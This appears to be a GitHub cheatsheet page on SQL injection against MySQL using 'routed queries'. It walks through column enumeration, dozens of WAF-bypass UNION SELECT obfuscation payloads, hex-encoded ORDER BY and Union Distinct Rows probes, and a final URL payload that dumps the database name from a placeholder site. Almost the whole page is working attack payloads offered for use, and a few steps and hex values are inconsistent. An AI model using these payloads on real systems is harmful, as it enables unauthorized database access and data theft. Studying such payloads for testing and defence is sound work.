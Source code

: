 ## 

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL-Routed-Queries#routed-queries-advaced-waf-bypass)

If the WAF is very hard to bypass using the given queries, the routed ones might help you.

## Identifying how many columns the payload has

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL-Routed-Queries#identifying-how-many-columns-the-payload-has)

`http://domain.com/index.php?id=-1 Union Select 0x3127,2,3,4` 0x3127 = 1' (0xHEX converted)  
`http://domain.com/index.php?id=-1 Union Select 1,0x3227,3,4` 0x3227 = 2' (0xHEX converted)  
`http://domain.com/index.php?id=-1 Union Select 1,2,0x3327,4` 0x3327 = 3' (0xHEX converted)  
`http://domain.com/index.php?id=-1 Union Select 1,2,3,0x3427` 0x3427 = 4' (0xHEX converted)

If any of the payloads gives error, it means that the respective column number is vulnerable to be dumped, for example. In our case, the second payload gives error, which means, we can start dumping the second column.

If the website has WAF enabled, you can use the following WAF-based UNION queries. Simply replace `Union Select` with the following payloads:

```
/*!50000%55nIoN*/ /*!50000%53eLeCt*/  
%55nion(%53elect 1,2,3)  
union+distinctROW+select+1,2,3,4-- -  
#?uNiOn + #?sEleCt  
#?1q %0AuNiOn all#qa%0A#%0AsEleCt  
/*!%55NiOn*/ /*!%53eLEct*/  
+un/**/ion+se/**/lect  
+?UnI?On?+'SeL?ECT?  
(UnIoN)+(SelECT)+1,2,3,4-- -  
+UnIoN/*&a=*/SeLeCT/*&a=*/  
%55nion(%53elect 1,2,3,4)-- -  
/**//*!12345UNION SELECT*//**/  
/**//*!50000UNION SELECT*//**/  
/**/UNION/**//*!50000SELECT*//**/  
/*!50000UniON SeLeCt*/  
union /*!50000%53elect*/  
/*!u%6eion*/ /*!se%6cect*/  
/*--*/union/*--*/select/*--*/  
union (/*!/**/ SeleCT */ 1,2,3,4)-- -  
/*!union*/+/*!select*/  
/**/uNIon/**/sEleCt/**/  
+%2F**/+Union/*!select*/  
/**//*!union*//**//*!select*//**/  
/*!uNIOn*/ /*!SelECt*/  
/**/union/*!50000select*//**/  
0%a0union%a0select%09  
%0Aunion%0Aselect%0A  
uni<on all="" sel="">/*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/  
%252f%252a*/UNION%252f%252a /SELECT%252f%252a*/  
/*!union*//*--*//*!all*//*--*//*!select*/  
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C
/*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/  
+UnIoN/*&a=*/SeLeCT/*&a=*/  
union+sel%0bect  
+#1q%0Aunion all#qa%0A#%0Aselect  
%23xyz%0AUnIOn%23xyz%0ASeLecT+  
%23xyz%0A%55nIOn%23xyz%0A%53eLecT+  
union(select(1),2,3)
uNioN (/*!/**/ SeleCT */ 11)  
/**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/  
%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/  
+union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C  
/*!f****U%0d%0aunion*/+/*!f****U%0d%0aSelEct*/  
+UnIoN/*&a=*/SeLeCT/*&a=*/  
+/*!UnIoN*/+/*!SeLeCt*/+  
/*!u%6eion*/ /*!se%6cect*/  
uni%20union%20/*!select*/%20  
union%23aa%0Aselect  
/**/union/*!50000select*/  
/^****union.*$/ /^****select.*$/  
/*union*/union/*select*/select+  
/*!50000UnION*//*!50000SeLeCt*/  
%252f%252a*/union%252f%252a /select%252f%252a*/  
```

In this case I used the first payload `/*!50000%55nIoN*/ /*!50000%53eLeCt*/`, so the final payload would be:  
`http://domain.com/index.php?id=-1 /*!50000%55nIoN*/ /*!50000%53eLeCt*/ 1,0x3227,3,4`  
The payload bypasses WAF and gives SQL Error, which means the 2nd column is vulnerable to be dumped.

## Finding the amount of columns (ORDER BY)

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL-Routed-Queries#finding-the-amount-of-columns-order-by)

Since we know the second column was vulnerable, we are going to dump it using ORDER BY queries.

Below are Union Distincs queries, which we can use for further enumerating:

```
and 0e0union distinctROW select 1,2,3,4  
and .0unIon distincrOw /*!50000sElect*/ 1,2,3,4  
AnD point(29,9) /*!50000UnION*/ /*!50000SelEcT*/ 1,2,3,4  
and mod(9,9) UNION SELECT 1,2,3,4  
'-,1union distinctrow%23aaaaaaaaaaaaaaa%0a select 1,2,3,4  
.0union distinct/**_**/Select 1,2,3,4  
union distinct selec%54 1,2,3,4  
UniOn DISTINCTROW sEleCt 1,2,3,4  
union distinct select 1,2,3,4  
union distinctROW select 1,2,3,4  
```

In our case the following payload does the job:  
`http://domain.com/index.php?id=-1 AnD point(29,9) /*!50000UnION*/ /*!50000SelEcT*/ 1,2,3,4`

Replacing the number, so the final payload would be:  
`http://domain.com/index.php?id=-1 AnD point(29,9) /*!50000UnION*/ /*!50000SelEcT*/ 1,0x32204f524445522042592031,3,4` where 0x32204f524445522042592031 = 2 ORDER BY 1 (0xHEX converted)

The payload musn't show error. Keep increasing the number by 1 until you see an error. Replace the 0xHEX value on the payload with the following hex, until you will receive an error.

```
2 ORDER BY 1 -> 0x32204f524445522042592031  
2 ORDER BY 2 -> 0x32204f524445522042592032  
2 ORDER BY 3 -> 0x32204f524445522042592033  
2 ORDER BY 4 -> 0x32204f524445522042592034  
2 ORDER BY 5 -> 0x32204f524445522042592035  
2 ORDER BY 6 -> 0x32204f524445522042592036  
2 ORDER BY 7 -> 0x32204f524445522042592037  
2 ORDER BY 8 -> 0x32204f524445522042592038  
```

and so on...

In our case, **2 ORDER BY 8** is the smallest number which gives an SQL Syntax error, which means the database has 7 columns.

## Finding the number of column to dump data

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL-Routed-Queries#finding-the-number-of-column-to-dump-data)

The following queries are called **Union Distinct Rows** queries. Because the 7th column is vulnerable, we will add number 7 in front of each payload:

|Union Distinct Rows queries|Queries converted to 0xHEX|
|---|---|
|2 and 0e0union distinctROW select 1,2,3,4,5,6,7|0x3720616e6420306530756e696f6e2064697374696e6374524f572073656c65637420312c322c332c342c352c362c37|
|2 and .0unIon distincrOw /_!50000sElect_/ 1,2,3,4,5,6,7|0x3720616e64202e30756e496f6e2064697374696e63724f77202f2a21353030303073456c6563742a2f20312c322c332c342c352c362c37|
|2 AnD point(29,9) /_!50000UnION_/ /_!50000SelEcT_/ 1,2,3,4,5,6,7|0x3720416e4420706f696e742832392c3929202f2a213530303030556e494f4e2a2f202f2a21353030303053656c4563542a2f20312c322c332c342c352c362c37|
|2 '-,1union distinctrow%23aaaaaaaaaaaaaaa%0a select 1,2,3,4,5,6,7|0x3720272d2c31756e696f6e2064697374696e6374726f772532336161616161616161616161616161612530612073656c65637420312c322c332c342c352c362c37|
|`2 .0union distinct/**_**/Select 1,2,3,4,5,6,7`|0x37202e30756e696f6e2064697374696e63742f2a2a5f2a2a2f53656c65637420312c322c332c342c352c362c37|
|2 union distinct selec%54 1,2,3,4,5,6,7|0xa3720756e696f6e2064697374696e63742073656c656325353420312c322c332c342c352c362c37|
|2 UniOn DISTINCTROW sEleCt 1,2,3,4,5,6,7|0x3720556e694f6e2044495354494e4354524f572073456c65437420312c322c332c342c352c362c37|
|2+union+distinct+select+1,2,3,4,5,6,7|0x372b756e696f6e2b64697374696e63742b73656c6563742b312c322c332c342c352c362c37|
|2+union+distinctROW+select+1,2,3,4,5,6,7|0x372b756e696f6e2b64697374696e6374524f572b73656c6563742b312c322c332c342c352c362c37|

In our case I will use the 3rd payload, so copy the 0xHEX converted payload and use it in the following payload:  
`http://domain.com/index.php?id=-1 AnD point(29,9) /*!50000UnION*/ /*!50000SelEcT*/ 1,0x3720416e4420706f696e742832392c3929202f2a213530303030556e494f4e2a2f202f2a21353030303053656c4563542a2f20312c322c332c342c352c362c37,3,4`

On the response, a number will be displayed, which tells us the vulnerable column. In this case, number 6 is vulnerable.

## Dumping data from the column

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL-Routed-Queries#dumping-data-from-the-column)

Because we used the payload `2 AnD point(29,9) /*!50000UnION*/ /*!50000SelEcT*/ 1,2,3,4,5,6,7`, and because the number 6 was vulnerable (on the website response), our next payload will be (simply replace number 6 with concat(), DIOS, or simple dumping queries):

`2 AnD point(29,9) /*!50000UnION*/ /*!50000SelEcT*/ 1,2,3,4,5,database(),7`

Convert it to 0xHEX and paste in in the next payload:

`http://domain.com/index.php?id=-1 AnD point(29,9) /*!50000UnION*/ /*!50000SelEcT*/ 1,0x3720416e4420706f696e742832392c3929202f2a213530303030556e494f4e2a2f202f2a21353030303053656c4563542a2f20312c322c332c342c352c646174616261736528292c37,3,4`

We successfuly dumped the database name.

I am using **database()**, because I want to keep the cheatsheet as easy as possible, however you can use [DIOS Payloads](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Error%20Based%20SQLi#dumping-with-dios). The technique is the same, but in the end, convert the whole payload to 0xHEX.